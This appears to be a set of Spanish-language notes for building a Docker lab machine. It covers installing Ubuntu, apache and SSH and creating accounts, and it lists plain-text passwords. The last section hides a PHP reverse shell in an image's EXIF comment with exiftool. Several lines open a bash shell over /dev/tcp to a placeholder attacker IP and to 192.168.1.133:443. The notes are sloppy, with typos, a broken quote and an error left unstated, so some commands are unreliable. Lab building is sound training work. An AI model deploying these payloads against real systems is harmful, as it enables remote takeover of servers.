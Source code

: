 
Vamos a crear una maquina en Docker en la que un servicio va a estar corriendo por el puerto 999


## crear la imagen del sistema ubuntu en su ultima version

docker pull ubuntu:latest

comprobar las imagenes de docker:
```sh title:"Comprobar las imagenes de docker"
 docker images
```

## Crear contenedor (de una imagen) y acceder
```sh title:"Crear contenedor de una imagen"
 docker run -it {3 primeras letras del IMAGE ID}
 # El image ID se peude ver con docker iamges
```

### Ver la IP del contenedor
```sh title:"Ver IP del contenedor"
 hostname -I
 # default 172.17.0.2
```
## Actualizar actualizaciones
```sh title:"Instalar apache"
 apt update
```
## Instalamos apache
```sh title:"Instalar apache"
 apt install apache2
```

corremos el servicio
service apache2 start
da error:



instalamos nano

apt insstall nanao

Agregar
en el fichero:  
```sh title:"Update apache2conf to add serverName"
ServerName 127.0.0.1
# nano /etc/httpd/conf/httpd.conf
```


Update root passord. GallinaHuevo

creamos el usuario gallineta
adduser gallineta: HuevoGallina

instalamos ssh
apt install openssh-server



agregar la shell a un fichero imagen:
exiftool -Comment='<?php // Reverse shell code ?>' image.jpg

<?php // change these values as needed $ip = 'your_attacker_ip'; $port = 'your_port'; $sh = shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'"); ?>
<?php  $ip = '192.168.1.133'; $port = '443; $sh = shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'"); ?>
exiftool -Comment='<?php $ip = "192.168.1.133"; $port = "443"; $sh = shell_exec("/bin/bash -c \"bash -i >& /dev/tcp/$ip/$port 0>&1\""); ?>' image.jpg
